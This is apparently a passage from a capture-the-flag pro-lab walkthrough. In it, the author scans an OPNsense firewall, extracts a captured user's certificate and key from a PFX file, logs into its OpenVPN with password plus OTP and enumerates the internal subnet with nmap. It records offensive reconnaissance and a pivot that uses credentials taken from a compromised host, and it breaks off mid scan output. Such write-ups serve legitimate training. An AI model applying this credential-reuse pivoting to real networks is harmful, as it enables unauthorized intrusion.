Checkin manually on the HTTP ports we can identify that this might actually be the firewall itself?



And offcourse the Rustscan is failing:



Same for UDP:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# nmap -sU -F 10.10.11.250       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-10 19:41 CEST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.15 seconds
```

If we run a dirsearch we can see something interesting here:



But seems like nothing works?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# curl  http://10.10.110.250/wpad.dat                             
/*
  PAC file created via OPNsense
  To use this file you have to enter its URL into your browsers network settings.
*/
function FindProxyForURL(url, host) {
   // If no rule exists - use a direct connection
   return "DIRECT";
}
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# curl  http://10.10.110.250/xmlrpc.php
<?xml version="1.0"?>
<methodResponse>
<params>
    <param>
      <value>Authentication failed</value>
    </param>
  </params>
</methodResponse>
```

# Moving on

For the reasons described under the machine .10 i feel like this is just a rabbit hole and this machine might still be legit, but non-reachable from the inside. My theory could make sense since the .10 had no NIC on the DMZ subnet which means that this might be only a VirtualIP pointer from firewall.

&nbsp;

&nbsp;

# Back on track

With the OVPN file and the OPN I want to try to get the connection but from a verbose seems like it fails from a certificate?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# openvpn --config Inception_VPN_Robert_Lanza.ovpn --verb 3
2024-06-27 11:43:57 DEPRECATED OPTION: --cipher set to 'AES-128-CBC' but missing in --data-ciphers (AES-256-GCM:AES-128-GCM:CHACHA20-POLY1305). OpenVPN ignores --cipher for cipher negotiations. 
2024-06-27 11:43:57 Note: Kernel support for ovpn-dco missing, disabling data channel offload.
2024-06-27 11:43:57 OpenVPN 2.6.9 x86_64-pc-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] [DCO]
2024-06-27 11:43:57 library versions: OpenSSL 3.2.2-dev , LZO 2.10
2024-06-27 11:43:57 DCO version: N/A
Enter Auth Username: Robert.Lanza
Enter Auth Password: •••••••••••••           
2024-06-27 11:44:07 TCP/UDP: Preserving recently used remote address: [AF_INET]10.10.110.250:8443
2024-06-27 11:44:07 Socket Buffers: R=[212992->212992] S=[212992->212992]
2024-06-27 11:44:07 UDPv4 link local (bound): [AF_INET][undef]:0
2024-06-27 11:44:07 UDPv4 link remote: [AF_INET]10.10.110.250:8443
2024-06-27 11:44:07 TLS: Initial packet from [AF_INET]10.10.110.250:8443, sid=9525fbff eb5c376f
2024-06-27 11:44:07 WARNING: this configuration may cache passwords in memory -- use the auth-nocache option to prevent this
2024-06-27 11:44:07 VERIFY OK: depth=1, C=US, ST=HTB, L=HTB, O=HTB, emailAddress=opnsense@cybernetics.local, CN=inception2
2024-06-27 11:44:07 VERIFY KU OK
2024-06-27 11:44:07 Validating certificate extended key usage
2024-06-27 11:44:07 ++ Certificate has EKU (str) TLS Web Server Authentication, expects TLS Web Server Authentication
2024-06-27 11:44:07 VERIFY EKU OK
2024-06-27 11:44:07 VERIFY X509NAME OK: C=US, ST=HTB, L=HTB, O=HTB, emailAddress=opnsense@cybernetics.local, CN=Inception-OpenVPN
2024-06-27 11:44:07 VERIFY OK: depth=0, C=US, ST=HTB, L=HTB, O=HTB, emailAddress=opnsense@cybernetics.local, CN=Inception-OpenVPN
2024-06-27 11:45:07 TLS Error: TLS key negotiation failed to occur within 60 seconds (check your network connectivity)
2024-06-27 11:45:07 TLS Error: TLS handshake failed
2024-06-27 11:45:07 SIGUSR1[soft,tls-error] received, process restarting
2024-06-27 11:45:07 Restart pause, 1 second(s)
2024-06-27 11:45:08 TCP/UDP: Preserving recently used remote address: [AF_INET]10.10.110.250:8443
2024-06-27 11:45:08 Socket Buffers: R=[212992->212992] S=[212992->212992]
2024-06-27 11:45:08 UDPv4 link local (bound): [AF_INET][undef]:0
2024-06-27 11:45:08 UDPv4 link remote: [AF_INET]10.10.110.250:8443
2024-06-27 11:45:08 TLS: Initial packet from [AF_INET]10.10.110.250:8443, sid=ce4e7d4c d665ba2b
2024-06-27 11:45:08 VERIFY OK: depth=1, C=US, ST=HTB, L=HTB, O=HTB, emailAddress=opnsense@cybernetics.local, CN=inception2
2024-06-27 11:45:08 VERIFY KU OK
2024-06-27 11:45:08 Validating certificate extended key usage
2024-06-27 11:45:08 ++ Certificate has EKU (str) TLS Web Server Authentication, expects TLS Web Server Authentication
2024-06-27 11:45:08 VERIFY EKU OK
2024-06-27 11:45:08 VERIFY X509NAME OK: C=US, ST=HTB, L=HTB, O=HTB, emailAddress=opnsense@cybernetics.local, CN=Inception-OpenVPN
2024-06-27 11:45:08 VERIFY OK: depth=0, C=US, ST=HTB, L=HTB, O=HTB, emailAddress=opnsense@cybernetics.local, CN=Inception-OpenVPN
2024-06-27 11:46:08 TLS Error: TLS key negotiation failed to occur within 60 seconds (check your network connectivity)
2024-06-27 11:46:08 TLS Error: TLS handshake failed
2024-06-27 11:46:08 SIGUSR1[soft,tls-error] received, process restarting
2024-06-27 11:46:08 Restart pause, 1 second(s)
2024-06-27 11:46:09 TCP/UDP: Preserving recently used remote address: [AF_INET]10.10.110.250:8443
```

Since we exported the certificate from the certfiicate from the machine we just pwned:



Which means we need the certificate named "Robert.Lanza"? In the meantime go back to the i**nwkt001.inception.local** to see how I obtained the certificate as robert.lanza.

What happens now if we spin-up Openvpn again?



I see wrong credentials? Maybe I need to use the OTP password?



But it keeps failing from windows so i think I need to test from Linux? But i was wrong apparently the OPN was indeed a MFA so I scanned the password on a OTP app and it get a 6 numbers password!

Now if I try to login I need to ship the MFA first...

But here I was wrong and advises that the MFA will not pop and it must be PASSWORDTOKEN:  
https://docs.opnsense.org/manual/how-tos/two_factor.html#step-7-using-the-token



Something like this:



&nbsp;

And now we have the connection to a new network:



I need to have access to my kali, so I will use instead the same and convert to get a working connection from linux.

So I extracted from the pfx the CA,CLIENT,PRIVATE keys separately:

```
┌──(root㉿kali-bello)-[/home/…/Downloads/Cybernetics/inception.local/CERTS]
└─# openssl pkcs12 -in CURRENT_USER_my_0_\ Robert.Lanza.pfx -out client-cert.pem -clcerts -nokeys 
Enter Import Password:
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/…/Downloads/Cybernetics/inception.local/CERTS]
└─# openssl pkcs12 -in CURRENT_USER_my_0_\ Robert.Lanza.pfx -out client-key.pem -nocerts -nodes 
Enter Import Password:
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/…/Downloads/Cybernetics/inception.local/CERTS]
└─# openssl pkcs12 -in CURRENT_USER_my_0_\ Robert.Lanza.pfx -out ca-cert.pem -cacerts -nokeys 
Enter Import Password:
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/…/Downloads/Cybernetics/inception.local/CERTS]
└─# ll
total 12
-rw-r--r-- 1 root root 2968 Jun 27 13:08 'CURRENT_USER_my_0_ Robert.Lanza.pfx'
-rw------- 1 root root    0 Jun 27 14:54  ca-cert.pem
-rw------- 1 root root 1907 Jun 27 14:53  client-cert.pem
-rw------- 1 root root 1896 Jun 27 14:54  client-key.pem
```

Then I edited the configuration and commented the line 12, this checks the certificates from local store and it is a pure windows feauture. And point in the config to the singular certificates...





And connecting with password+MFA:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# openvpn --config Inception_VPN_Robert_Lanza.ovpn 
2024-06-27 15:00:02 DEPRECATED OPTION: --cipher set to 'AES-128-CBC' but missing in --data-ciphers (AES-256-GCM:AES-128-GCM:CHACHA20-POLY1305). OpenVPN ignores --cipher for cipher negotiations. 
2024-06-27 15:00:02 OpenVPN 2.6.9 x86_64-pc-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] [DCO]
2024-06-27 15:00:02 library versions: OpenSSL 3.2.2-dev , LZO 2.10
2024-06-27 15:00:02 DCO version: N/A
Enter Auth Username: Robert.Lanza
Enter Auth Password: •••••••••••••••••••     
2024-06-27 15:00:28 TCP/UDP: Preserving recently used remote address: [AF_INET]10.10.110.250:8443
2024-06-27 15:00:28 UDPv4 link local (bound): [AF_INET][undef]:0
2024-06-27 15:00:28 UDPv4 link remote: [AF_INET]10.10.110.250:8443
2024-06-27 15:00:28 WARNING: this configuration may cache passwords in memory -- use the auth-nocache option to prevent this
2024-06-27 15:00:29 [Inception-OpenVPN] Peer Connection Initiated with [AF_INET]10.10.110.250:8443
2024-06-27 15:00:30 TUN/TAP device tun1 opened
2024-06-27 15:00:30 net_iface_mtu_set: mtu 1500 for tun1
2024-06-27 15:00:30 net_iface_up: set tun1 up
2024-06-27 15:00:30 net_addr_ptp_v4_add: 172.16.255.6 peer 172.16.255.5 dev tun1
2024-06-27 15:00:30 Initialization Sequence Completed
```

Results in a success baby!



&nbsp;

# INTERNAL network enumeration

Now we need to enumerate the internal network at **172.16.255.0/24**.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# fping -asgq 172.16.255.0/24
172.16.255.1
172.16.255.6

     254 targets
       2 alive
     252 unreachable
       0 unknown addresses

    1008 timeouts (waiting for response)
    1010 ICMP Echos sent
       2 ICMP Echo Replies received
       5 other ICMP received

 0.050 ms (min round trip time)
 16.3 ms (avg round trip time)
 32.5 ms (max round trip time)
        9.788 sec (elapsed real time)
```

I don't see that much?



The .6 is our machine so I don't see anything, but the 1 is answering with some ports?

I think this is the VPN that points to the internal network only, it is basically the backend of the firewall.

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:b9:f3:0c:f1:4d:a3:cf:b1:f4:08:58:b4:c3:fd:8a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDVZcHI/Y38Xp4JKol6Q3D1IYHhJ+A5+2u8zjp9i0RKb6BVTup5k3Qf6klOAnQ0gtITIS8cVHP/PfPlAZWFJzPupkbEyEpeYt+6U+s4bRL8ELeEGxPMArylkS+y+zxD6Yuuzj+6Mf+gxaW/cetkN+67KaeqE72PiZSSE6Xvsl5nVLXVwcXibX32KknwnS+4dxTRG1yqlZKXY/SZLfSA5G1P07ZQPuiU0zBJfXXxUXIb7KtjKDT/3VJ6hOF2eQYeb3nbjwx7865FMrwCX0uzIowouLroAAU2YIg6R+OwkiXZVIQjhZtnww9CDqzpArBqwcliT/Atcs/tVWCkUx7YQ5B5
|   256 78:47:fa:b4:03:60:67:9b:f8:e7:cc:37:2e:98:af:20 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEEfB+q+7NSFYb3TNu1RDc4+bKkq8q8CHniudK6+T8ohR2IgWMbUwXlGNUGX71phGMjN1VQfVAIRhH1HHPXCYdk=
|   256 ed:de:af:0e:3c:12:90:f8:0e:8c:b8:26:be:bd:3d:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOlVOj36BSfqPgyyPRT4Kg+62zE67Q3DOQb/9hdHtJoo
53/tcp open  domain  syn-ack ttl 64 Unbound 1.9.2
| dns-nsid: 
|   id.server: OPNsense.localdomain
|_  bind.version: unbound 1.9.2
80/tcp open  http    syn-ack ttl 64 OPNsense
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Login
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: E4FD990B4B8A5D61BD5DDB98CDFC7190
|_http-server-header: OPNsense
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval'; style-src 'self' 'unsafe-inline' 'unsafe-eval';
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Referrer-Policy: same-origin
|     Set-Cookie: PHPSESSID=0db511c7d71260643d582332da9f3b12; path=/
|     Set-Cookie: PHPSESSID=0db511c7d71260643d582332da9f3b12; path=/; HttpOnly
|     Expires: Thu, 19 Nov 1981 08:52:00 GMT
|     Cache-Control: no-store, no-cache, must-revalidate
|     Pragma: no-cache
|     Content-type: text/html; charset=UTF-8
|     Content-Length: 1798
|     Connection: close
|     Date: Thu, 27 Jun 2024 13:08:12 GMT
|     Server: OPNsense
|     <!doctype html>
|     <!--[if IE 8 ]><html lang="en" class="ie ie8 lte9 lte8 no-js"><![endif]-->
|     <!--[if IE 9 ]><html lang="en" class="ie ie9 lte9 no-js"><![endif]-->
|     <!--[if (gt IE 9)|!(IE)]><!--><html lang="en" class="no-js"><!--<![e
|   HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Set-Cookie: PHPSESSID=a6f0f7ddde9dfd4b0212d69aeeda3ac0; path=/
|     Set-Cookie: PHPSESSID=a6f0f7ddde9dfd4b0212d69aeeda3ac0; path=/; HttpOnly
|     Expires: Thu, 19 Nov 1981 08:52:00 GMT
|     Cache-Control: no-store, no-cache, must-revalidate
|     Pragma: no-cache
|     Content-type: text/html; charset=UTF-8
|     Content-Length: 563
|     Connection: close
|     Date: Thu, 27 Jun 2024 13:08:12 GMT
|     Server: OPNsense
|     <html><head><title>CSRF check failed</title>
|     <script>
|     document ).ready(function() {
|     $.ajaxSetup({
|     'beforeSend': function(xhr) {
|     xhr.setRequestHeader("X-CSRFToken", "cXZaU0lsRFRBc20yVTB0VXNneWx5QT09" );
|     </script>
|     </head>
|     <body>
|_    <p>CSRF check failed. Your form session may have expired, o
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=6/27%Time=667D6433%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,9A5,"HTTP/1\.0\x20200\x20OK\r\nContent-Security-Policy:\x20de
SF:fault-src\x20'self';\x20script-src\x20'self'\x20'unsafe-inline'\x20'uns
SF:afe-eval';\x20style-src\x20'self'\x20'unsafe-inline'\x20'unsafe-eval';\
SF:r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-Content-Type-Options:\x20nosniff
SF:\r\nX-XSS-Protection:\x201;\x20mode=block\r\nReferrer-Policy:\x20same-o
SF:rigin\r\nSet-Cookie:\x20PHPSESSID=0db511c7d71260643d582332da9f3b12;\x20
SF:path=/\r\nSet-Cookie:\x20PHPSESSID=0db511c7d71260643d582332da9f3b12;\x2
SF:0path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2019\x20Nov\x201981\x2008:52:
SF:00\x20GMT\r\nCache-Control:\x20no-store,\x20no-cache,\x20must-revalidat
SF:e\r\nPragma:\x20no-cache\r\nContent-type:\x20text/html;\x20charset=UTF-
SF:8\r\nContent-Length:\x201798\r\nConnection:\x20close\r\nDate:\x20Thu,\x
SF:2027\x20Jun\x202024\x2013:08:12\x20GMT\r\nServer:\x20OPNsense\r\n\r\n<!
SF:doctype\x20html>\n<!--\[if\x20IE\x208\x20\]><html\x20lang=\"en\"\x20cla
SF:ss=\"ie\x20ie8\x20lte9\x20lte8\x20no-js\"><!\[endif\]-->\n<!--\[if\x20I
SF:E\x209\x20\]><html\x20lang=\"en\"\x20class=\"ie\x20ie9\x20lte9\x20no-js
SF:\"><!\[endif\]-->\n<!--\[if\x20\(gt\x20IE\x209\)\|!\(IE\)\]><!--><html\
SF:x20lang=\"en\"\x20class=\"no-js\"><!--<!\[e")%r(HTTPOptions,3CC,"HTTP/1
SF:\.0\x20403\x20Forbidden\r\nSet-Cookie:\x20PHPSESSID=a6f0f7ddde9dfd4b021
SF:2d69aeeda3ac0;\x20path=/\r\nSet-Cookie:\x20PHPSESSID=a6f0f7ddde9dfd4b02
SF:12d69aeeda3ac0;\x20path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2019\x20Nov
SF:\x201981\x2008:52:00\x20GMT\r\nCache-Control:\x20no-store,\x20no-cache,
SF:\x20must-revalidate\r\nPragma:\x20no-cache\r\nContent-type:\x20text/htm
SF:l;\x20charset=UTF-8\r\nContent-Length:\x20563\r\nConnection:\x20close\r
SF:\nDate:\x20Thu,\x2027\x20Jun\x202024\x2013:08:12\x20GMT\r\nServer:\x20O
SF:PNsense\r\n\r\n<html><head><title>CSRF\x20check\x20failed</title>\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<script>\n\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\$\(\x20document\x20\)\.ready\(f
SF:unction\(\)\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\$\.ajaxSetup\({\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20'beforeSend':\x20function\(xhr\)\
SF:x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20xhr\.setRequestHeader\(\"X-CSRFToken\",\x20\"cXZ
SF:aU0lsRFRBc20yVTB0VXNneWx5QT09\"\x20\);\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20}\);\n\x20\x20\x20\x20\x20\x20\x20
